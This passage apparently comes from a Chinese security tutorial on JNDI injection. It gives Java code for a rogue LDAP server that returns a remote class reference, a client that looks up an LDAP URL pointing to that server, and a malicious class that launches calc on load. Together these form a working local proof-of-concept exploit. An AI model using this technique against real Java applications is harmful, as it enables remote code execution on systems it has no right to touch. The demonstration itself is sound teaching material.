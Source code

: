 ```bash
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try{
                sendResult(result,base,e);
            }
            catch (Exception e1){
                e1.printStackTrace();
            }
        }
    }
}
```

LDAP\_Client

```bash
package JNDI;

import javax.naming.InitialContext;

public class LDAP_Client {
    public static void main(String[] args) throws Exception{
        String string = "ldap://127.0.0.1:9999/#evilexp";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(string);
    }
}
```

恶意类 evilexp

```bash
public class evil {
    public evil() throws Exception{
        Runtime.getRuntime().exec("calc");
    }
}
```

​  
[![](assets/1699929746-25cb4ebeb8aa677cc283d99c1e1c6c8f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110002231-2ef8fa84-7f1c-1.png)  
​
